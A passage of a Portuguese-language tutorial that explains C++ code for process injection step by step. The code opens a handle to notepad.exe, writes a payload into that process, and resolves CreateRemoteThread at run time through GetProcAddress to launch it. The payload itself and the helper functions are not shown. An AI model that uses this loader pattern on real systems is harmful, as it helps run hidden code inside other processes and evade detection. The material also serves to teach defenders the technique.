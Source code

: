 ```cpp
std::wcout << L"[+] Pressione Enter para localizar o processo alvo." << std::endl;
std::cin.get();

if (!ObterHandleProcesso(L"notepad.exe", &idProcessoAlvo, &processoAlvo, NtOpenProcess)) {
    return -1;
}
```

`ObterHandleProcesso`: Utilizo essa função (analisada anteriormente) para localizar o processo `notepad.exe` e, se for bem-sucedido, armazeno o `idProcessoAlvo` e o `processoAlvo`. Se não conseguir localizar o processo ou abrir o handle, interrompo a execução.

Quando o processo é encontrado com sucesso, exibo algumas informações na tela:

```cpp
std::wcout << L"[+] Processo encontrado: PID " << idProcessoAlvo << std::endl;
std::wcout << L"[+] Endereco do payload: " << static_cast<void*>(payload) << std::endl;
```

Essas informações me mostram o ID do processo de destino e o endereço do payload que está prestes a ser injetado.

---
### **Injeção do Payload**
Depois de localizar o processo, vou para a etapa de injeção do payload:

```cpp
std::wcout << L"[+] Pressione Enter para injetar o payload." << std::endl;
std::cin.get();

if (!InjetarPayload(processoAlvo, payload, sizeof(payload), &enderecoRemoto)) {
    return -1;
}
```

`InjetarPayload`: Essa função, explicada anteriormente, injeta o payload no processo de destino. Se a injeção falhar, interrompo a execução.

Se a injeção for bem-sucedida, o endereço remoto onde o payload foi mapeado é exibido:

```cpp
std::wcout << L"[+] Endereco remoto apos injecao: " << enderecoRemoto << std::endl;
```

---
### **Carregamento da Função `CreateRemoteThread`**
Para executar o payload no processo remoto, preciso utilizar a função `CreateRemoteThrea`, que é responsável por criar uma thread remota no processo de destino. Para isso, obtenho o handle para o módulo `kernel32.dll` e, em seguida, o endereço da função `CreateRemoteThread`:

```cpp
HMODULE moduloKernel = GetModuleHandleA(dllKernel);
if (moduloKernel == NULL) {
    SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cerr << "[!] Erro ao obter o handle para kernel32.dll" << std::endl;
    return -1;
}

CriarThreadRemota = (FuncaoThread)GetProcAddress(moduloKernel, nomeFuncaoThread);
if (CriarThreadRemota == NULL) {
    SetConsoleColor(FOREGROUND_RED | FOREGROUND_INTENSITY);
    std::cerr << "[!] Erro ao localizar a funcao CreateRemoteThread." << std::endl;
    return -1;
}
```
